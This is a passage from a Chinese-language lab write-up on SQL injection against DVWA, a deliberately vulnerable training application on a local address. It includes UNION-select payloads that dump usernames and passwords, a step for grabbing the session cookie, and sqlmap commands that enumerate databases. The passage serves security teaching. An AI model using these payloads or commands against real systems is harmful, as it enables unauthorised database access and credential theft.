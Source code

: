 `1' union select user,password from users#`

![image-20211101181835396](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949393.png)

`1' union select avatar,111 from users#`

![image-20211101182149834](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949855.png)

`1' union select group_concat(last_login),group_concat(failed_login) from users#`（这里如果不用`group_concat`的话，由于五个last_login和failed_login都是一样的，只会显示一个）

![image-20211101182544905](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949503.png)



------

#### 【Low-sqlmap】

##### ①获取登录DVWA的cookie

在页面中按F12进入开发者模式，在console中输入`document.cookie`获得cookie：

![image-20211102212659650](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949397.png)

cookie：`"security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a"`



##### ②sqlmap-GET

因为页面中id的参数会随着输入发生变化，所以可以通过GET参数注入。

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch`

![image-20211101150917005](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949866.png)

扫描结果：

![image-20211101151150374](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949788.png)

sqlmap 通过133次测试后，找到了四种进行注入的方法（即四种漏洞），分别是`boolean-based blind`, `error-based`, `time-based blind`, `UNION query`。另外sqlmap还给出了服务器使用的操作系统、web 引擎和MySQL 的大致版本。



##### ③使用 `--dbs`查看数据库

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch --dbs`

扫描结果：

![image-20211101151509474](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949873.png)

扫描出共有5个数据库，分别是dvwa、infomation_schema、mysql、performance_schema和sys。

